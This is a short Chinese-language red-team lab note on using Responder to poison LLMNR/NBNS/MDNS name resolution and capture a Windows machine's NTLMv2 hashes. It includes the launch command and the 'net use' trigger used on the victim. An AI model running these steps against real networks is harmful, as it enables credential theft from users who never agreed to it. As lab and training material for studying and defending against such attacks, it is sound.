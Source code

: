 
## Responder获取hash值

工具地址 : [lgandx/Responder](https://github.com/lgandx/Responder)

Reponder 的主要作用其实就是 “协议欺骗”+“模拟服务”，先通过 NBNS、LLMNR 或 MDNS 协议进行欺骗，将流量转到本机，再通过服务交互来获取 hash 值

```bash
# kali 自带
responder -I eth0 -rPv
```

### 通过命令获取hash并破解

在 windows7 上尝试使用 net use 访问一个不存在的主机名。
```
net use \\what\2
```

![](../../../../../assets/img/Security/RedTeam/OS安全/实验/Responder欺骗/2.png)

![](../../../../../assets/img/Security/RedTeam/OS安全/实验/Responder欺骗/3.png)

可以看到，在受害机器输入命令后，responder 已经获取到了受害机器的 NTLM V2 hash 值，由于 SMB 会尝试多次认证，所以会捕捉到多次 hash 值，在 responder 上获取到的 hash 都会保存在 `/usr/share/responder/logs/` 文件夹下，且会根据 IP、协议进行命名。
